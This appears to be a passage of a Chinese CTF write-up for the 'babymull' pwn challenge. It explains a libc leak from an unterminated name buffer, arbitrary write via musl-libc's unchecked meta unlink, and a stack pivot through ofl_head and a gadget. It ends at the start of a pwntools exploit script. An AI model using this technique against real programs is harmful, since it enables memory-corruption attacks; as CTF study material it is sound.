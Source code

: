 首先注意到`buffdes`的结构里, `name`与`pbuff`紧紧相邻, 并且仔细观察`add`函数中的复制操作, **并未对`name`数组添加尾缀零** 所以只要能够让`name[15]`非零, 且`pbuff`是`mmap`得到的空间, 就可以计算出`libc`的基址

## 攻击面

`musl-libc`对`meta`的`unlink`操作没有检查,可以伪造`fake_meta`的`prev`和`next`域来实现一个任意地址写

伪造`meta`需要的条件可以通过分析源码得到

在`musl-libc`中有一个与`IO_list_all`相似的变量`ofl_head`, 在`exit`函数中调用的`__stdin_exit`函数中使用:

![exit.png](../imgs/exit.png)

![__stdio_exit.png](../imgs/__stdio_exit.png)

`close_file`中：

![close_file.png](../imgs/close_file.png)

所以将ofl_head修改为可控的地址之后，再将`f→write`改为这样一个`gadget`

```c
0x000000000004bcf3: mov rsp, qword ptr [rdi + 0x30] ; jmp qword ptr [rdi + 0x38]
```

就可以直接迁栈到可控内存中

完整exp

```python
from pwn import *
context.arch = 'amd64'
sh = process("./babymull")

size_class = [
	1, 2, 3, 4, 5, 6, 7, 8,
	9, 10, 12, 15,
	18, 20, 25, 31,
	36, 42, 50, 63,
	72, 84, 102, 127,
	146, 170, 204, 255,
	292, 340, 409, 511,
	584, 682, 818, 1023,
	1169, 1364, 1637, 2047,
	2340, 2730, 3276, 4095,
	4680, 5460, 6552, 8191
```